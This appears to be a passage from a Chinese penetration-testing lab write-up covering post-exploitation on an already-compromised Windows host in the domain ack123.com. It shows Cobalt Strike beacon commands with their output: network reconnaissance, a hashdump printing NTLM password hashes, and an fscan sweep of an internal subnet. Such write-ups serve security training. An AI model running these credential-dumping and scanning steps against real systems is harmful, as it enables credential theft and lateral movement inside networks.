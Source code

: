 <img src=".\图片\Snipaste_2023-05-19_19-58-53.png" alt="Snipaste_2023-05-19_19-58-53" style="zoom:67%;" />

## 主机信息搜集（已攻陷）

1、网卡信息，两个网段，且在域内 `ack123.com`

```beacon
beacon> shell ipconfig /all
```

```
主 DNS 后缀 . . . . . . . . . . . : ack123.com
IPv4 地址 . . . . . . . . . . . . : 10.10.10.141(首选) 
IPv4 地址 . . . . . . . . . . . . : 10.10.1.128(首选) 
```

2、抓取密码

```beacon
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82541 bytes
[+] received password hashes:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b78ee36a79ed9763b66519f86825a6bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

3、运行 fscan

```beacon
[*] Tasked beacon to run: fscan.exe -h 10.10.1.0/24 -o out.txt
[+] host called home, sent: 54 bytes
[+] received output:

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.1
start infoscan
(icmp) Target 10.10.1.1       is alive
(icmp) Target 10.10.1.128     is alive
(icmp) Target 10.10.1.129     is alive
[*] Icmp alive hosts len is: 3
10.10.1.128:3306 open
10.10.1.129:445 open
10.10.1.129:88 open
```